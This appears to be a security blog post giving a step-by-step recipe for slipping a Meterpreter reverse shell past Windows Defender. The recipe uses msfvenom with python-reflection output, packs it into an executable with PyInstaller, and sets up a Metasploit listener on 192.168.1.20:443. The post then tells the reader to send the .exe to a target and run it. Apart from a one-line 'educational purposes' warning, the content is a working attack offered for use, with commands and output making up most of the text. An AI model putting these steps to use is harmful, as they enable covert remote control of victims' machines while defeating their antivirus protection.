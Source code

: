 ```yaml
---
title: Windows AV Evasion (msfvenom edition)
image: /assets/img/Anexos/rev_shell_AV_evasion.gif
description: The easiest way to achieve a reverse shell bypassing Windows Defender
categories: [Hacking, Windows]
tags: [av-evasion, meterpreter, windows-defender]
---
```




> [!WARNING]  
> The entire article and the information shown is only for educational and informational purposes.

## Introduction

In this post, we'll explore a method to bypass Windows Defender using Python and Meterpreter to achieve a reverse shell.

> Git repo -> https://github.com/juanbelin/Windows-AV-Evasion 

## Step-by-Step Process

### 1. Creating the Payload

First, we'll use `msfvenom` to create the payload as a `.py` file using `python-reflection` for built-in obfuscation:

```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.1.20 lport=443 -f python-reflection -o reload.py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 203846 bytes
Final size of python-reflection file: 1337649 bytes
Saved as: reload.py
```

### 2. Adding Required Libraries

We need to add `ctypes` since it's required by `python-reflection`:

```shell
nano reload.py 
```

![](/assets/img/Anexos/Windows_AV.png)


### 3. Generating the Executable

We can create the executable using PyInstaller either from Windows or through `wine`:

Using Wine:
```shell
wine pyinstaller -F hoax_shell.py --onefile
```

Or directly in Windows:
```powershell
pyinstaller -F hoax_shell.py --onefile
```

### 4. Setting Up the Listener

Create a Metasploit resource file (`test.rc`):

```shell
use payload windows/x64/meterpreter_reverse_tcp
set lhost 192.168.1.20
set lport 443 
exploit
```

Start the listener:
```bash
msfconsole -r test.rc
```

### 5. Execution

Send the `.exe` to the target machine and execute it either through GUI (RDP) or remote command execution.

![](/assets/img/Anexos/rev_shell_AV_evasion.gif)

### Listener Script Usage

The script provides a listener for incoming connections:

```shell
$ ./listiner.sh

[!] Missing parameters.

[USE] ./test.sh <LHOST> <LPORT>

Parameters:
  <LHOST>   LOCAL IP
  <LPORT>   LOCAL PORT

Example: ./test.sh 192.168.1.20 443
```
